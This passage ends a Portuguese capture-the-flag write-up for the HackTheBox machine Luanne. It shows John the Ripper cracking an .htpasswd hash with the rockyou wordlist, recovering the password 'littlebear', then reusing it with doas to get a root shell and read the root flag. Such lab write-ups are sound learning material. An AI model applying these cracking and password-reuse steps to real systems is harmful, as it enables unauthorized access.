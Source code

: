 Utilizando o mesmo método feito para o arquivo anterior, foi encontrada a senha **littlebear**.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long ./www/.htpasswd
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
littlebear (webapi_user)
1g 0:00:00:00 DONE (2021-02-20 16:02) 1.333g/s 17216p/s 17216c/s 17216C/s mirame..limewire
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Assim como o `sudo`, o `doas` requer que uma senha seja informada, onde **littlebear** funcionou como esperado, permitindo a obtenção da flag de root:

```bash
doas /bin/sh
Password:
# hostname && id
luanne.htb
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
# cat /root/root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês novamente em breve! :smiley:
